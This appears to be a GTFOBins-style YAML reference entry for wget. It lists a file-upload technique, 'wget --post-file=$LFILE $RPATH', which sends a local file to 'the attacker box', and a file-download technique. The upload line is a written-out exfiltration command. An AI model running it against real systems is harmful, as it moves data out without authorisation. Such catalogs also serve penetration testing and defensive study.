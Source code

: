```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
      code: |
        wget --post-file=$LFILE $RPATH
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        wget $RPATH -O $NFILE
---
```

